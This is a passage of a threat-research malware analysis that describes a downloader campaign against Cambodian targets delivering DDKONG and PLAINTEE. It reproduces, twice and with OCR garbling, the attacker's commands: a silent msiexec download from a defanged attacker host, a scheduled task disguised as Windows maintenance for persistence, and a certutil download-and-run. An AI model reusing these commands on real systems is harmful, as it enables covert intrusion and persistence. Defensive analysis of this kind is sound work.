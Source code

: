 


cmd /c Echo CreateObject("WScript.Shell").Run "msiexec /q /i
http:\\dlj40s.jdanief[.]xyz/images/word3.doc",0
>%userProfile%\AppData\Local\Microsoft\microsoft.vbs /c Echo
CreateObject("WScript.Shell").Run "msiexec /q /i
http:\\dlj40s.jdanief[.]xyz/images/word3.doc",0
>%userProfile%\AppData\Local\Microsoft\microsoft.vbs
schtasks /create /sc MINUTE /tn "Windows Scheduled MaintenBa" /tr "wscript
%userProfile%\AppData\Local\Microsoft\microsoft.vbs" /mo 10 /F /create /sc
MINUTE /tn "Windows Scheduled MaintenBa" /tr "wscript
%userProfile%\AppData\Local\Microsoft\microsoft.vbs" /mo 10 /F
cmd /c certutil.exe -urlcache -split -f
http:\\\\dlj40s.jdanief[.]xyz/images/1.pdf C:\ProgramData\1.pdf&start
C:\ProgramData\1.pdf /c certutil.exe -urlcache -split -f
http:\\\\dlj40s.jdanief[.]xyz/images/1.pdf C:\ProgramData\1.pdf&start
C:\ProgramData\1.pdf




1234567891011121314151617

cmd /c Echo CreateObject("WScript.Shell").Run "msiexec /q /ihttp:\\dlj40s.jdanief[.]xyz/images/word3.doc",0>%userProfile%\AppData\Local\Microsoft\microsoft.vbs /c EchoCreateObject("WScript.Shell").Run "msiexec /q /ihttp:\\dlj40s.jdanief[.]xyz/images/word3.doc",0>%userProfile%\AppData\Local\Microsoft\microsoft.vbsschtasks /create /sc MINUTE /tn "Windows Scheduled MaintenBa" /tr "wscript%userProfile%\AppData\Local\Microsoft\microsoft.vbs" /mo 10 /F /create /scMINUTE /tn "Windows Scheduled MaintenBa" /tr "wscript%userProfile%\AppData\Local\Microsoft\microsoft.vbs" /mo 10 /F cmd /c certutil.exe -urlcache -split -fhttp:\\\\dlj40s.jdanief[.]xyz/images/1.pdf C:\ProgramData\1.pdf&startC:\ProgramData\1.pdf /c certutil.exe -urlcache -split -fhttp:\\\\dlj40s.jdanief[.]xyz/images/1.pdf C:\ProgramData\1.pdf&startC:\ProgramData\1.pdf





In the above command, the malware is downloading and executing a payload and configuring it for persistent execution. In two of the three examples, the malware also downloads and opens a decoy PDF document hosted on a legitimate but compromised website. The decoy documents seen in these cases were related to Cambodian news articles, an example is shown in Figure 4 below.
 

Figure 4 - 1.pdf decoy delivered by downloader
 
The decoy above discusses a recent event that took place against political party supporters in Cambodia, a similar theme to the decoy document observed in Figure 3.
It is worth noting that the third DLL mentioned attempts to download the decoy document from a government website. This same website was used previously in a KHRat campaign targeting Cambodian citizens.
Additionally, two of the three DLL loaders were found to be hosted on this same compromised website, implying that it was likely compromised again in early 2018. The filenames for these two DLL loaders are as follows:

Activity Schedule.pdf
អ្នកនយោបាយក្បត់លើក្បត (Translated from Khmer: Politicians betrayed on the betrayal)

Malware Overview
In all cases where we were able to identify the final payloads used, the DDKONG  or PLAINTEE malware families were used. We observed DDKONG in use between February 2017 and the present, while PLAINTEE is a newer addition with the earliest known sample being observed in October 2017. It’s unclear if DDKONG is only used by one threat actor or more than one based on the data available.
In this section we’ll go over the capabilities and operation of these malware families.
 